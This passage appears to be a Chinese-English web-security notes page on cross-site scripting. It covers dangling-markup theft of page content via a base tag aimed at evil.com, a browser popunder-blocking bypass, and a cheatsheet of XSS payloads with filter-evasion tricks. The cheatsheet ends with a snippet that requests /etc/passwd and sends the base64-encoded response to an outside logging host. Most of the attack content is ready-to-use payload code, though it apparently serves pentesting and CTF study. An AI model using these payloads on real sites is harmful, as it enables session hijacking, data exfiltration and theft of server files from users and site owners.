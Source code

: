 細節詳見：[rblog-writeup](https://github.com/shinmao/CTF-writeups/tree/master/RCTF2018)  
* `<base target>`竊取頁面內容  
跟上面同樣利用`<base>`tag但是觀念完全不同  
**Exploit**:  
:point_down: 透過xss漏洞插入不完整的`<base target>`標籤到頁面中  
:point_down: `target`讓頁面中所有URL[http://evil.com/](http://evil.com/)的page都設下了同名的`window.name`!  
:point_down: [http://evil.com/](http://evil.com/)頁面中有`<script>alert(name);</script>`的功能  
:point_down: 彈框的內容為target的name  
[參考原文](https://portswigger.net/blog/evading-csp-with-dom-based-dangling-markup)  

# pop up
Currently most of the browsers have stop from poping up window  
@MasatoKinugawa find a trick to bypass:  
```js
<script>
onkeydown=function(){
    window.open('//example.com/','_blank','a');
}
onkeypress=function(){
    window.open('about:blank','_blank').close();
}
```
https://vulnerabledoma.in/popunder/keyevent.html  
[Popunder restriction bypass with keydown and keypress event](https://bugs.chromium.org/p/chromium/issues/detail?id=836841)  

# Cheatsheet
```php
</script>"><script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><script>al\u0065rt(document.domain)</script>
"><script>al\u{65}rt(document.domain)</script>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>

// document.write take multiple arguments
document.write("<s","crip","t>al","ert(","1)","</s","cript>")

// Unicode-based
location='http://\u{e01cc}\u{e01cd}\u{e01ce}\u{e01cf}\u{e01d0}\u{e01d1}\u{e01d2}\u{e01d3}\u{e01d4}\u{e01d5}google\u{e01da}\u{e01db}\u{e01dc}\u{e01dd}\u{e01de}\u{e01df}.com'

// redirection
atob.constructor(unescape([...escape((𐑬󠅯󠅣󠅡󠅴󠅩󠅯󠅮󠄽󠄧󠅨󠅴󠅴󠅰󠄺󠄯󠄯󠅩󠅢󠅭󠄮󠅣󠅯󠅭󠄧=ﾠ=>ﾠ).name)].filter((ﾠ,ㅤ)=>ㅤ%12<1|ㅤ%12>9).join([])))()  

// Use xss to read file
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
        if (xmlhttp.readyState==4 && xmlhttp.status==200)
        {
            document.location='http://kaibro.tw/log.php?c='+btoa(xmlhttp.responseText);
        }
}
xmlhttp.open("GET","abc.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
```  
[Brute XSS payload by Pgaijin66](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)  
